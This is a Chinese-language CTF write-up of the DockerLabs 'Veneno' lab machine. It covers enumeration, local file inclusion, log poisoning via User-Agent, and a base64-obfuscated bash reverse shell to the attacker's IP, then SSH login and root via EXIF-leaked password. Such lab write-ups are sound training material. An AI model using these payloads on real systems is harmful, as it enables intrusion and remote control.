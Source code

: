 ```yaml
---
title: "Dockerlabs-Veveno"
date: 2025-02-22
categories: 
  - "dockerlabs"
tags: 
  - "dockerlabs"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Veveno  
❯ nmap 172.17.0.2 -sV  -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-22 16:04 CST
Nmap scan report for 172.17.0.2
Host is up (0.000089s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 89:9c:7b:99:95:b6:e8:03:5a:6a:d4:69:69:4a:8d:35 (ECDSA)
|_  256 ec:ec:90:44:4e:66:64:22:f6:8b:cd:29:d2:b5:60:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.09 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.95 seconds
```

## Gobuster

```
[root@kali] /home/kali/Veveno  
❯ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html                                 ⏎
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/problems.php         (Status: 200) [Size: 10671]
/index.html           (Status: 200) [Size: 10671]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 661680 / 661683 (100.00%)
```

可以看到存在一个**problems.php**，但是回显和**index.html**是一样的，猜测需要构造一个参数

## FFUF

![](./images/image-84.png)

可以看到存在一个**backdoor**的参数

```
[root@kali] /home/kali/Veveno  
❯ curl --path-as-is 'http://172.17.0.2/problems.php?backdoor=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
carlos:x:1001:1001:,,,:/home/carlos:/bin/bash
```

在**/etc/passwd**中找到一个**carlos**用户，但是读取不到**ssh**密钥

## LFI

在遍历文件的时候发现可以读取日志文件

![](./images/image-85.png)

在**User-Agent**部分插入一句话木马

![](./images/image-86.png)

再包含日志文件，可以看到一句话木马被插入成功

![](./images/image-87.png)

反弹**shell**

```
cmd=system('echo "YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS8xMDAgMD4mMQ=="|base64 -d|bash');
```

在**/var/www/html**目录下得到一个留言

```
www-data@fbbc838fa7a8:/var/www/html$ cat anti*
cat anti*
Es imposible que me acuerde de la pass es inhackeable pero se que la tenpo en el mismo fichero desde fa 24 anys. trobala buscala 

soy el unico user del sistema. 

我不可能记得通行证是无法破解的，但我知道我把它放在同一个文件里已经 24 年了。
```

查找**24**年前的文件

```
find / -type f -mtime +8760
```

![](./images/image-88.png)

得到密码是：**pinguinochocolatero**

成功登录**ssh**

![](./images/image-89.png)

## Root

发现一个隐藏的图片，将其下载出来

![](./images/image-93.png)

![](./images/image-90.png)

```
[root@kali] /home/kali/Veveno  
❯ scp  carlos@172.17.0.2:/home/carlos/carpeta55/.toor.jpg ./ 
```

查看图片的**exif**信息

![](./images/image-91.png)

随后使用这个密码提升为**root**

![](./images/image-92.png)

## Summary

`User`：经典的**CTF**日志包含，写入一句话马然后反弹**shell**，根据留言找到一个密码文件，从**www-data**提升到**user**。我看其他的解法大概也是写入一句话木马，但是不是利用的**User-Agent**，这是在CTF中比较常见的利用点。

- [](https://byte-mind.net/dockerlabs-machines-veneno-writeup/)[Dockerlabs machines - Veneno Writeup - Byte Mind](https://byte-mind.net/dockerlabs-machines-veneno-writeup/)

- [Veneno , DockerLabs | CTF's Linux Apuntes](https://firstatack.github.io/posts/veneno/)

`Root`：图片的**EXIF**信息泄露，得到**root**的密码
